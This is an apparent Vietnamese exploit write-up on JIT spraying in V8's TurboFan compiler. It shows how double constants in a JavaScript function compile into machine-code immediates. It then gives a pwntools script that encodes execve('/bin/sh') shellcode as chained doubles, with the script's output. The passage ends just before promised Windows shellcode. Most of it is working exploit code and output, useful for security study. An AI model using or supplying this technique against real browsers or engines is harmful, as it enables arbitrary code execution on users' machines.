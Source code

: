 ```javascript=
function foo()
{
    return [2.5124, 1.521, 3.5124];
}
```
* Khi được compile bằng `turbofan` nó sẽ được setup

```
00007FF6E00440C0    80  49ba61c3d32b65190440 REX.W movq r10,400419652BD3C361
00007FF6E00440CA    8a  c4c1f96ec2           vmovq xmm0,r10
00007FF6E00440CF    8f  c5fb114707           vmovsd [rdi+0x7],xmm0
00007FF6E00440D4    94  49babc7493180456f83f REX.W movq r10,3FF85604189374BC
00007FF6E00440DE    9e  c4c1f96ec2           vmovq xmm0,r10
00007FF6E00440E3    a3  c5fb11470f           vmovsd [rdi+0xf],xmm0
00007FF6E00440E8    a8  49ba61c3d32b65190c40 REX.W movq r10,400C19652BD3C361
00007FF6E00440F2    b2  c4c1f96ec2           vmovq xmm0,r10
```
* Các số `49ba61c3d32b65190440` là giá trị hex của các số thập phân trên, như vậy chúng ta có thể set con trỏ vào ngay những số này và với lệnh `jmp` để nhảy tiếp đến số tiếp theo và thực thi tiếp câu lệnh
* Ví dụ cho shellcode của tác giả thực thi trong linux

```python=
from pwn import *

context(arch='amd64')
jmp = b'\xeb\x0c'
shell = u64(b'/bin/sh\x00')

def make_double(code):
	assert len(code) <= 6
	print(hex(u64(code.ljust(6, b'\x90') + jmp))[2:])

make_double(asm("push %d; pop rax" % (shell >> 0x20)))
make_double(asm("push %d; pop rdx" % (shell % 0x100000000)))
make_double(asm("shl rax, 0x20; xor esi, esi"))
make_double(asm("add rax, rdx; xor edx, edx; push rax"))
code = asm("mov rdi, rsp; push 59; pop rax; syscall")
assert len(code) <= 8
print(hex(u64(code.ljust(8, b'\x90')))[2:])

"""
Output:
ceb580068732f68
ceb5a6e69622f68
cebf63120e0c148
ceb50d231d00148
50f583b6ae78948
"""
```
* Cơ mà ở đây do mình chạy trên window nên sẽ có shellcode khác
* Dựa theo bài viết [này](https://www.tophertimzen.com/blog/windowsx64Shellcode/) cộng với việc debug thì mình có shellcode như sau
